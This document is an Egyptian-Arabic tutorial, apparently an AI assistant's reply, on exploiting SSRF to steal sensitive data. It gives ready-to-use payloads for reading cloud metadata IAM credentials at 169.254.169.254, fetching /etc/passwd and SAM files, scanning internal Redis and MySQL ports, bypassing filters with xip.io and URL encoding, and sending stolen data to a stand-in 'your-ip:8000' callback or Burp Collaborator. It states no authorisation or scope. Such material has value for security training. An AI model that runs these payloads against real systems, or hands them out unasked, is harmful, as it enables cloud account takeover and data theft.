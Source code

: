 تمام، هشرحلك موضوع "Exfiltrating Sensitive Data Through SSRF" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Exfiltrating Sensitive Data Through SSRF بعمق**
"SSRF" يعني **Server-Side Request Forgery**، وهي ثغرة بتحصل لما السيرفر بيسمحلك تخليه يبعت طلبات (Requests) لأماكن إنت تحددها، سواء داخل الشبكة بتاعته أو براها. "Exfiltration" يعني سرقة بيانات حساسة (زي كونفيج، باسوردات، أو داتا سرية) باستخدام الثغرة دي.

- **ازاي بتحصل؟** لما التطبيق بياخد إنبوت منك (زي URL) ويستخدمه عشان يعمل Request من السيرفر نفسه من غير ما يفحصه كويس.
- **الهدف:** الوصول لبيانات داخلية (زي Metadata في السحابة أو ملفات في الشبكة) وتسريبها ليك.

**مثال بسيط:**
لو موقع بياخد لينك منك عشان يجيب صورة:
```
http://target.com/fetch?url=http://example.com/image.jpg
```
وإنت غيرت اللينك لـ:
```
http://target.com/fetch?url=http://localhost/admin
```
السيرفر هيجيب الصفحة الداخلية ويظهرها ليك.

**خلاصة بالعامية:**  
يعني كأنك بتقول للسيرفر "روح هاتلي الحاجة دي"، وهو يروح يجيب حاجات المفروض محدش يشوفها ويديك إياها.

---

### **2. الجانب العملي: ازاي بنستغل SSRF لسرقة البيانات**
هنشرح الطرق الشائعة مع أمثلة عملية:

#### **أ. الوصول لـ Metadata في السحابة**
كتير من سيرفرات السحابة (زي AWS, Azure, GCP) عندها Metadata متاحة على عنوان داخلي زي `http://169.254.169.254`.

- **مثال عملي:**
  لو لقيت حقل في موقع بياخد URL، جرب:
  ```
  http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/
  ```
  لو رجعلك بيانات (زي IAM Roles أو مفاتيح AWS)، يبقى السيرفر بيستجيب لـ SSRF.

- **استغلال أعمق:**
  جرب تجيب مفاتيح الـ Access:
  ```
  http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE-NAME
  ```
  لو ظهرت بيانات زي Access Key وSecret Key، تقدر تستخدمهم عشان تتحكم في حساب الـ AWS.

- **أمر عملي كـ Pentester:**
  جرب مسارات شائعة:
  ```
  http://169.254.169.254/latest/user-data
  http://169.254.169.254/latest/meta-data/hostname
  ```

**خلاصة بالعامية:**  
كأنك بتخلي السيرفر يديك مفتاح خزنته السرية من غير ما ياخد باله.

#### **ب. قراءة ملفات داخلية**
لو السيرفر بيسمح بـ File Protocol أو localhost، بنستخدم SSRF عشان نجيب ملفات.

- **مثال عملي:**
  جرب في حقل الـ URL:
  ```
  http://target.com/fetch?url=file:///etc/passwd
  ```
  لو ظهرلك قايمة المستخدمين في Linux، يبقى في SSRF مع وصول للملفات.

- **لو Windows:**
  ```
  http://target.com/fetch?url=file://C:/Windows/win.ini
  ```

- **أمر عملي:**
  جرب مسارات داخلية:
  ```
  http://localhost/config.php
  http://127.0.0.1:8080/admin
  ```

**خلاصة بالعامية:**  
زي ما تخلي السيرفر يفتح درج مكتبه ويديك الورق اللي جواه.

#### **ج. تسريب البيانات للخارج**
لو السيرفر بيرجعلك الرد مباشرة، حلو. لكن لو مش بيرجع حاجة (Blind SSRF)، بنخليه يبعت البيانات ليك عبر موقعك.

- **مثال عملي:**
  اعمل سيرفر بسيط على جهازك بـ Python:
  ```
  python -m http.server 8000
  ```
  وبعدين في حقل الـ URL:
  ```
  http://target.com/fetch?url=http://your-ip:8000/?data=SECRET
  ```
  لو السيرفر بعت Request ليك، هتشوف البيانات في اللوج.

- **استغلال أعمق:**
  اطلب من السيرفر يجيب حاجة ويبعتها ليك:
  ```
  http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE-NAME&callback=http://your-ip:8000
  ```

**خلاصة بالعامية:**  
كأنك بتقول للسيرفر "روح جيبلي الحاجة دي وبعدين ابعتها لعنواني".

#### **د. استغلال خدمات داخلية**
لو في خدمات داخلية (زي داتابيز أو أدمن بانيل) على بورتات معينة، بنستخدم SSRF عشان نوصلها.

- **مثال عملي:**
  جرب:
  ```
  http://target.com/fetch?url=http://127.0.0.1:3306
  ```
  لو في MySQL مفتوح، ممكن يرجعلك رد يأكد الخدمة.

- **أمر عملي:**
  اسكان بورتات داخلية:
  ```
  http://127.0.0.1:22 (SSH)
  http://127.0.0.1:6379 (Redis)
  http://127.0.0.1:8080 (Web Admin)
  ```

**خلاصة بالعامية:**  
كأنك بتخلي السيرفر يفتحلك أبواب جواه المفروض مقفولة.

#### **هـ. تجاوز الفلاتر**
الموقع ممكن يحط قيود (زي "URL لازم يبقى http خارجي بس")، لكن بنقدر نتخطاها.

- **مثال عملي:**
  لو الموقع بيمنع `localhost`، جرب:
  ```
  http://target.com/fetch?url=http://127.0.0.1.xip.io
  ```
  (الدومين ده بيرجع لـ 127.0.0.1).

- **أو:**
  استخدم تشفير URL:
  ```
  http://target.com/fetch?url=http://%31%32%37%2E%30%2E%30%2E%31
  ```

**خلاصة بالعامية:**  
الموقع لو بيقولك "ممنوع تدخل جوا"، تقدر تلف عليه وتخليه يفتحلك الباب برضو.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها SSRF لسرقة البيانات:

1. **Cloud Metadata Extraction:**
   - سرقة مفاتيح AWS/GCP/Azure من `http://169.254.169.254`.

2. **Internal File Access:**
   - جلب ملفات زي `/etc/passwd` أو `C:/Windows/system32/config/SAM`.

3. **Data Exfiltration:**
   - توجيه البيانات لسيرفرك باستخدام Callback URL:
   ```
   http://your-ip:8000/?data=[SENSITIVE_DATA]
   ```

4. **Internal Service Exploitation:**
   - الوصول لـ Redis (`127.0.0.1:6379`) أو MySQL (`127.0.0.1:3306`).
   - تنفيذ أوامر لو في ثغرة في الخدمة.

5. **Blind SSRF:**
   - استخدام DNS Requests لتأكيد الثغرة:
   ```
   http://target.com/fetch?url=http://your-subdomain.burpcollaborator.net
   ```

6. **Network Scanning:**
   - سكان الشبكة الداخلية:
   ```
   http://192.168.1.1
   http://192.168.1.2
   ```

7. **Privilege Escalation:**
   - لو لقيت مفاتيح أو كونفيج حساس، استخدمه للوصول لصلاحيات أعلى.

---

### **نصيحة كـ Pentester:**
- استخدم **Burp Suite** (Collaborator) عشان تكشف Blind SSRF.
- جرب كل البروتوكولات (http, file, gopher) لو ما فيش فلاتر.
- لو الرد مش مباشر، ركز على تسريب البيانات للخارج (DNS, HTTP).
- ابحث عن خدمات داخلية شائعة (زي Redis, Memcached) وحاول تستغلها.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!